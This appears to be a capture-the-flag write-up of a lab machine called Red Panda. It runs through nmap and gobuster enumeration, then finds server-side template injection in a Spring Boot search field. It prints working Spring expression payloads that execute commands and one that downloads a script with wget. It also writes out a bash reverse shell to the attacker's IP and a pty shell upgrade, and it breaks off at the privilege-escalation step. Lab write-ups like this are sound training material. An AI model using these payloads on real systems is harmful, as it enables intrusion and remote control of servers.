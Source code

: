 # User
* `nmap -sV -sC 10.129.227.207`
```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 20:33 EDT
Nmap scan report for 10.129.227.207
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 26 Jun 2024 00:33:10 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=6/25%Time=667B61C6%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;cha
SF:rset=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Wed,\x2026\x20Jun\
SF:x202024\x2000:33:10\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x
SF:20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"wo
SF:oden_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://cod
SF:epen\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"styl
SF:esheet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"tex
SF:t/css\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x
SF:20with\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x
SF:20\x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20c
SF:lass='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x
SF:20right'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20lef
SF:t'>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x2
SF:0\x20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x2
SF:0</div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x2020
SF:0\x20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x2
SF:0Wed,\x2026\x20Jun\x202024\x2000:33:10\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20te
SF:xt/html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20
SF:435\r\nDate:\x20Wed,\x2026\x20Jun\x202024\x2000:33:10\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><titl
SF:e>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style
SF:\x20type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x2
SF:0h1,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h
SF:1\x20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:1
SF:4px;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{he
SF:ight:1px;background-color:#525D76;border:none;}</style></head><body><h1
SF:>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></h
SF:tml>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
* navigating to the site brings you to a red panda search engine
![](Red%20Panda-paste.png)
* Browsing to `/robots.txt` reveals that this is a whitelabel page
* I decided to run a gobuster directory scan against the site to see what I could enumerate: 
```bash
gobuster dir -u http://10.129.227.207:8080 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
* The first can with a `200 OK` response is for `/stats`, so I browsed to it
![](Red%20Panda-paste-1.png)
* The page seems to be for viewer statistics for the authors of the site; one of which is the target user, woodenk
* clicking on woodenk, his stats page has the option to export a table:
![](Red%20Panda-paste-2.png)
* Exporting the table just allows you to see the site contents as an xml file
* I decided to repeat my steps again in burpsuite to see if anything hinky was occurring with the requests and responses
	* saw nothing suspicious with the either
* Looking at the search result for greg prints "Greg is a hacker. Watch out for his injection attacks!"
	* Going to go out on a limb and say this might be vulnerable to an injection attack
* My first thought was to try a sql injection, but that didn't make much sense since no sql database showed on the nmap scan and the table was an xml file
* My second guess was to try SSTI, using the `${7*7}` parameter
	* This resulted in "You searched for: Error occured: banned characters"
* While the result did not return 49 like I had hoped, I was able to narrow down that `$` is a banned character
* I wanted to see what else was a banned character, so I ran burp intruder fuzz against the search parameter:
![](Red%20Panda-paste-3.png)
* I used the wordlist `/usr/share/wfuzz/wordlist/injections` and set the payload processing to be url encoded
	* The following characters received the same error message:
		* `$`
		* `%`
		* `_`
* I still wanted to explore the ssti route, so my next step was to look for the template that was being used.
* Looking further into the whitelabel error page, I found that it is the default error page for a Spring Boot application
* With this information I started a `ctrl f` search for spring on [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---spring) and found the poc payload `*{7*7}`
	* Searching for this in the web app resulted in the output of 49; yippee!
* The next payload I tried was:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
* This returned the uids and guids, proving that code execution had been achieved
* I did a ping test to ensure that I could reach my box: `ping -c 4 10.10.14.13`
	* That was a success, but no payloads seemed to work
* I decided to make my payload a `.sh` file and host it on a webserver so I could download it to the box:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.13/6969 0>&1
```
* After hosting it on a webserver I spun up, I used `wget` to download it to the website:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.13:8081/urmom.sh').getInputStream())}
```
* I checked if I had access to execute the payload and saw that I only had `rw` access
* I added execute perms and then ran the payload after setting up my listener
![](Red%20Panda-paste-4.png)
* From here I got the user flag. Yippee!

# Root
* I tried running `sudo -l`, but got the error `sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper`
* I had a feeling that was a result of my noninteractive shell, so I upgraded to an interactive shell:
```bash 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
* I tried `sudo -l` again, but I needed a password to run that :/
* 
